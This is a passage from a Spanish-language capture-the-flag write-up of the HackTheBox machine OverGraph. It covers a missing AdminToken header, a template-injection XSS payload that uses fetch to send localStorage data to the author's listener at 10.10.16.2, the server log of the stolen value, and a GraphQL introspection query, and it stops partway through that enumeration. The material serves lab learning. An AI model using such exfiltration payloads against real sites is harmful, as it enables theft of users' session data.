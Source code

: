 Agrego la cabecera AdminToken, con cualquier valor, pero al intentar subir un archivo aparece un error diciendo que no es válido

<img src="/writeups/assets/img/OverGraph-htb/21.png" alt="">

<img src="/writeups/assets/img/OverGraph-htb/22.png" alt="">

Este valor se puede obtener desde el Javascript

<img src="/writeups/assets/img/OverGraph-htb/23.png" alt="">

Hago unas pruebas desde el XSS del perfil, y recibo lo que quiero

```null
{% raw %}
{{constructor.constructor('fetch("http://10.10.16.2/?username=" +window.localStorage.getItem("username"))')()}}
{% endraw %}
```

```null
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.16.2 - - [20/Feb/2023 13:55:56] "GET /?username=rubbx HTTP/1.1" 200 -
10.10.16.2 - - [20/Feb/2023 13:55:56] "GET /?username=rubbx HTTP/1.1" 200 -
10.10.16.2 - - [20/Feb/2023 13:55:56] "GET /?username=rubbx HTTP/1.1" 200 -
10.10.16.2 - - [20/Feb/2023 13:55:56] "GET /?username=rubbx HTTP/1.1" 200 -
```

Enumero el ```Graphql```. Primeramente me interesa saber que campos existen

```null
curl -s -X POST 'http://internal-api.graph.htb/graphql' -d 'query={__schema{types{name,fields{name}}}}' | jq -r | grep name | sed 's/ *//' | sort -u
"name": "admin"
"name": "adminToken"
"name": "args"
"name": "Assignedto"
"name": "assignTask"
"name": "Boolean",
"name": "CacheControlScope",
"name": "createdAt"
"name": "defaultValue"
"name": "deprecationReason"
"name": "description"
"name": "__Directive",
"name": "__DirectiveLocation",
"name": "directives"
"name": "email"
"name": "__EnumValue",
"name": "enumValues"
"name": "__Field",
"name": "fields"
"name": "firstname"
"name": "from"
"name": "fromUserName"
"name": "id"
```